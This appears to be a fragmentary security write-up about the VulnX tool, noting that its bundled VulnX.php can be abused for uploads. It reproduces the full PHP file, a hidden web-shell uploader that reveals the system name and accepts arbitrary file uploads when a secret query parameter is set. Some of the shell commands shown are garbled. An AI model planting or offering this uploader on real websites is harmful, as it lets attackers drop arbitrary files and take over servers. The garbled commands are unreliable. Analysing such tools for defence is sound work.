 ```
...
git clone https://github.com/anouarbensaad/vulnx.git
...
mkdir cat VulnX.php
...
touch shell.php
chmod 777 shell.php 
...
```
Check folder /usr/share/vulnx/


![image](https://hackmd.io/_uploads/SygnW5jixJx.png)



Found that the file /usr/share/vulnx/shell/VulnX.php can be exploited to upload

```php
<html>
</html>

<?php

error_reporting(0);
set_time_limit(0);

if($_GET['Vuln']=="X"){
echo "<center><b>Uname:".php_uname()."<br></b>"; 
echo '<font color="black" size="4">';
if(isset($_POST['Submit'])){
    $filedir = "uploads/"; 
    $maxfile = '2000000';
    $mode = '0644';
    $userfile_name = $_FILES['image']['name'];
    $userfile_tmp = $_FILES['image']['tmp_name'];
    if(isset($_FILES['image']['name'])) {
        $qx = $filedir.$userfile_name;
        @move_uploaded_file($userfile_tmp, $qx);
        @chmod ($qx, octdec($mode));
echo" <a href=$userfile_name><center><b>Uploaded Success ==> $userfile_name</b></center></a>";
}
}
else{
echo'<form method="POST" action="#" enctype="multipart/form-data"><input type="file" name="image"><br><input type="Submit" name="Submit" value="Upload"></form>';
}
echo '</center></font>';

}
?>
```
